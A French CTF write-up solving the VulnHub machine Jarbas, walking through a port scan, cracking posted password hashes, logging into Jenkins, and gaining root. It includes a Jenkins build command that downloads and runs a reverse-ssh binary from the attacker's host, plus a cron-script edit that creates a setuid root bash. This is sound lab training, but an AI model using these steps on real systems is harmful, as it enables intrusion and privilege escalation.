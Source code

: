 # Solution du CTF Jarbas de VulnHub

[Jarbas](https://www.vulnhub.com/entry/jarbas-1,232/), un CTF proposé sur VulnHub, est un peu le cousin germain de [Jeeves de HackTheBox](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Jeeves%20de%20HackTheBox.md).

Le scénario est d'ailleurs quasi identique : sur le port 80 on trouve une copie de l'ancien moteur de recherche `Ask.com`.

```
Nmap scan report for 192.168.56.70
Host is up (0.00025s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28bc493c6c4329573cb8859a6d3c163f (RSA)
|   256 a01b902cda79eb8f3b14debb3fd2e73f (ECDSA)
|_  256 57720854b756ffc3e6166f97cfae7f76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Jarbas - O Seu Mordomo Virtual!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```

Sur le port 80 on nous offre directement des hashs pourtant ce n'est pas encore noël.

```
Creds encrypted in a safe way!

tiago:5978a63b4654c73c60fa24f836386d87
trindade:f463f63616cb3f1e81ce46b39f882fd5
eder:9b38e2b1e8b12f426b0d208a7ab6cb98
```

J'ai envoyé tout ça sur crackstation qui a trouvé respectivement :

```
italia99
marianna
vipsu
```

Sur le port 8080 se trouve un Jenkins et les identifiants `eder` / `vipsu` permettent de s'y.

Du coup je ne m'attarde pas trop sur les étapes à suivre car elles sont déjà décrites dans le `Jeeves` : il faut créer un nouveau projet, aller dans sa configuration puis dans l'onglet `Build` puis sur la partie `Exécuter un script shell`.

Là on saisit de quoi obtenir un shell. Comme les ports ne sont pas filtrés sur la VM je rappatrie et fait tourner un reverse-ssh qui fonctionnera comme un serveur SSH mais sur le port 31337.

```bash
cd /tmp;wget http://192.168.56.1/reverse-sshx64;chmod +x reverse-sshx64;nohup ./reverse-sshx64
```

Pour m'y connecter j'utilise le client SSH de mon OS. Il y a un mot de passe par défaut (`letmeinbrudipls`) et j'obtiens un accès avec le compte `jenkins`.

Il y a une entrée dans la crontab :

`*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1`

Et ce script qui tourne en root est word-writable, quelle aubaine :p 

`-rwxrwxrwx. 1 root root 50 Apr  1  2018 /etc/script/CleaningScript.sh`

Je rajoute des commandes dedans pour copier `bash` vers `/tmp` et le rendre setuid root. Après quelques minutes c'est prêt, plus qu'à déguster :

```shellsession
bash-4.2$ /tmp/bash -p
bash-4.2# id
uid=997(jenkins) gid=995(jenkins) euid=0(root) groups=995(jenkins) context=system_u:system_r:initrc_t:s0
bash-4.2# cd /root
bash-4.2# ls
flag.txt
bash-4.2# cat flag.txt
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs
```

Forcément, avec ma connaissance de la version de HTB, ce CTF était du tout préparé, plus qu'à enfourner au micro-ondes !
